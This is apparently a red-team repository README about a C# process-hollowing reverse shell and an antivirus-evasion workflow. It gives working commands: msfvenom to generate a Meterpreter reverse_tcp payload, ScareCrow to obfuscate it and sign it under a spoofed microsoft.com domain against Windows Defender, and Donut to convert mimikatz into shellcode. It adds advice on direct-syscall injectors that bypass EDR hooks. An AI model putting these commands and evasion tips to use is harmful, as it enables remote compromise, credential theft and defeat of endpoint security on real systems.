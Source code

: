 # redteam

## source-codes
***reverse-shell-hollowing.cs*** - This C# code executes a reverse shell using the Process Hollowing technique, where a victim process is created in a suspended state, its original process (e.g.: notepad.exe) is carved out from memory, a malicious binary gets written instead and the program state is resumed to execute the injected code.</br> 
You can compile it with `mcs hollowing.cs`

## Useful Commands

***ScareCrow*** - This framework generates a "obfuscated" binary using some bypass techniques like DLL unhooking, ETW patching and Code signing(The same as ***limelighter*** does).</br> Example of usage:</br> You can generate a malicious binary and test in your windows vm if it is detected by windows defender:</br> `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IP LPORT=443 -f raw -o malware.bin`</br> Then, use ScareCrow to generate obfuscated versions:</br> `./ScareCrow -I malware.bin -domain www.microsoft.com -encryptionmode AES` (You can change the encryption mode to ELZMA)</br>
>  When signing the loader with microsoft.com, using them against WINDOWS DEFENDER ATP products may not be as effective as they can validate the cert as it belongs to them. If you are using a loader against a windows product, possibly use a different domain.</br>
</br>

***Donut*** - The main goal of this tool is to generate shellcode from .NET Assemblies(eg. mimikatz.exe) both a Windows EXE and a Python (Python planned for v1.0) script are provided for payload generation. That allows loading and executing payloads directly in memory.</br>
Command example: `./donut mimikatz.exe -a 2`</br>
Then, with mimikatz's shellcode, you must create an injector which is using syscalls in order to bypass AV/EDR which is mainly focused on Userland API hookings. Before implementing the use of *syscalls*, it is necessary to first identify the native "syscall" equivalent of the Windows API used in the baseline code.
</br>

```
Native API
>NtOpenProcess
>NtAllocateVirtualMemory
>NtWriteVirtualMemory
>NtCreateThreadEx
>NtClose
```
